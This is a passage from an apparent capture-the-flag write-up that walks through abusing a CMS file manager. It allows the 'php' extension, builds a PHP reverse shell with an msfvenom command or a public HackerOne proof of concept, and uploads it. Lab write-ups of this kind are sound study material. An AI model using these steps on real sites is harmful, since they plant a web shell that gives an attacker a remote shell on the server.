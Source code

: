 2. Add “**php**” at the end of the list —> Click “**Save**”:
    
    ![image.png](/assets/mKingdom%20images/image%209.png)
    
3. Create a PHP reverse shell:
    - Option 1: Copy the shell from the PoC on the internet ([Hackerone](https://hackerone.com/reports/768322) or [Vulners](https://vulners.com/hackerone/H1:768322))
    - Option 2: Use command
        
        ```
        msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=1234 > shell.php
        ```
        
    - Or write your own shell
4. Click on the hamburger menu icon on the top-right corner —> Drop-down the  “**Files**” —>”**Files Manager**” —> Click “**Upload Files**” —> Select & Upload the shell
    
